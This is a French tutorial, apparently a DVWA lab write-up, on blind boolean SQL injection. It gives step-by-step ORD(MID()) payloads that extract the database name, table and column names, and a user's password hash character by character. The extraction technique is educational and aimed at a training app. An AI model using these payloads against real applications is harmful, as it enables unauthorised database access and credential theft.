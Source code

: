 # Niveau "Low"

Une injection à l'aveugle diffère d'une injection plus classique par le fait que l'application va répondre à nos requêtes seulement par oui ou par non.

Par exemple, l'application nous répond que l'`id` renseigné est bel et bien présent dans la base \(soit une réponse oui\) :

![](../../../../.gitbook/assets/bd92deecf1f42e9bfdbee0dfcd09a3ea.png)

Dans le cas contraire, l'application répond par un message spécifique \(sur d'autres applications il peut s'agir de l'absence de message\) indiquant que l'`id` est inexistant \(réponse non\) :

![](../../../../.gitbook/assets/105eeb5ddcd08b5c038a4cb90ea21f40.png)

Comprenant maintenant un peu mieux le principe de l'injection à l'aveugle, il nous reste plus qu'à identifier et exploiter l'injection.

L'injection du caractère spécial `"'"` ne déclenche pas d'erreur, il nous faut alors trouver une autre manière de confirmer la présence d'une faille SQL :

![](../../../../.gitbook/assets/36e615b1ddf5aed704bcef8c75cbb216.png)

Il existe plein de possibilités pour cela, en voici une. Nous savons que l'`id` `"1"` existe, nous allons donc tenter de modifier la requête afin d'ajouter une clause `AND` :

![](../../../../.gitbook/assets/079ff9c143393da1eb378be8a82531bd.png)

La réponse négative n'indique pas la présence d'injection SQL à elle-seule, mais couplée à une seconde réponse :

![](../../../../.gitbook/assets/aa544dbe054a0a4a3d589c2c659b8d23.png)

Révèle bien l’existence de la vulnérabilité.

La première étape est de récupérer le nom de la base de données utilisée par l'application. Pour rappel, l'application ne peut répondre seulement que par oui ou par non, nous allons donc gentiment demander à l'application si la première lettre du nom de la base commence par `"a"`, par `"b"`, par `"c"` etc ... \(j'ai ajouté le premier `"'"` seulement pour la coloration syntaxique\) :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 -- 
```

![](../../../../.gitbook/assets/56d90ac2310dcbe54822f6c4d234b562.png)

_Explications_

Ici, nous demandons à l'application si la première lettre du nom de sa base de données est `"d"` \(`100` en décimal\). L'application nous répond par l'affirmative.

* `DATABASE()` : renvoie la chaîne "dvwa"
* `MID(DATABASE(),1,1)` : renvoie le première caractère de la chaîne retournée par `DATABASE()`
* `ORD()` : renvoie l'équivalent décimal du caractère en paramètre

{% hint style="info" %}
Il est possible d'utiliser les opérateurs`>=` et `<=` puis d'affiner notre recherche au fur et à mesure
{% endhint %}

Soit pour la chaîne entière :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 --   // d
'1' AND ORD(MID(DATABASE(),2,1)) = 118 --   // v
'1' AND ORD(MID(DATABASE(),3,1)) = 119 --   // w
'1' AND ORD(MID(DATABASE(),4,1)) = 97 --    // a
```

De plus, il est également possible de déterminer tout d'abord la longueur de la chaîne renvoyée par la fonction appelée \(ici `DATABASE()`\) :

![](../../../../.gitbook/assets/08551d416e3b89c75f132839073a942e.png)

On continue avec la récupération des noms des tables de cette base. Etant en aveugle, on récupère en premier lieu, le nombre de tables existants dans la base \(`50` représentant `"2"` en décimal\) :

![](../../../../.gitbook/assets/243bd89dd43b2063f7372d4deab836cb.png)

Puis les noms des deux tables :

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),1,1)) = 103 --  // g 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),2,1)) = 117 --  // u
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),5,1)) = 116 --  // t
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),6,1)) = 98 --   // b
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),7,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),8,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),9,1)) = 107 --  // k
```

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),4,1)) = 114 --  // r
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),5,1)) = 115 --  // s
```

On détermine ensuite le nombre de colonnes de la table `users` , soit ici 8 \(`56` en décimal\) : 

```sql
'1' AND ORD(MID((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa'),1,1)) = 56 -- 
```

![](../../../../.gitbook/assets/cb2d037474143c3255e745e0928d9279.png)

Puis on retrouve les noms des colonnes \(ici en exemple `user` et `password`\) :

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),4,1)) = 114 --  // r
```

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),1,1)) = 112 --  // p 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),2,1)) = 97 --   // a
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),3,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),5,1)) = 119 --  // w
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),6,1)) = 111 --  // o
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),7,1)) = 114 --  // r
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),8,1)) = 100 --  // d
```

Finalement, l'empreinte du mot de passe de notre victime \(ici Pablo\) :

```sql
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),1,1)) = 48 --   // 0  
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),2,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),3,1)) = 49 --   // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),4,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),5,1)) = 55 --   // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),6,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),7,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),8,1)) = 57 --   // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),9,1)) = 102 --  // f
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),10,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),11,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),12,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),13,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),14,1)) = 52 --  // 4
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),15,1)) = 48 --  // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),16,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),17,1)) = 97 --  // a
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),18,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),19,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),20,1)) = 51 --  // 3
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),21,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),22,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),23,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),24,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),25,1)) = 55 --  // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),26,1)) = 49 --  // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),27,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),28,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),29,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),30,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),31,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),32,1)) = 55 --  // 7
```

Soit :

![](../../../../.gitbook/assets/6d75b9397dbe0c57747a75e7b2a5485c.png)

{% hint style="info" %}
On se concentre ici seulement sur l'utilisateur Pablo mais il est bien sur possible de récupérer tous les noms des utilisateurs ainsi que les mots de passe associés en utilisant la même technique
{% endhint %}

